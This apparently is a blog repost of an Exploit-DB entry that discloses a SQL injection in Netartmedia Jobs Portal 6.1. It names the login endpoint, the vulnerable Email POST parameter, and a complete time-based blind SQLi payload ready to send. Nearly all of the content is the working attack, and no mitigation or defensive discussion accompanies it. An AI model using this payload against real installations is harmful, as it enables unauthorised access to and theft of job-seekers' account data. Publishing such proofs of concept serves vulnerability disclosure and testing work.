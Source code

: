 ```yaml
---
layout:     post
title:      "Netartmedia Jobs Portal 6.1 - SQL Injection"
date:       2019-03-20 12:02
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Netartmedia Jobs Portal 6.1 - SQL Injection
# Date: 19.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/jobsportal/
# Demo Site: https://www.ittjobs.com/
# Version: 6.1
# Tested on: Kali Linux
# CVE: N/A

----- PoC SQLi -----

Request: http://localhost/[PATH]/loginaction.php
Parameter: Email (POST)
Payload: Email=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&Password=g00dPa%24%24w0rD&lang=en&mod=login
            
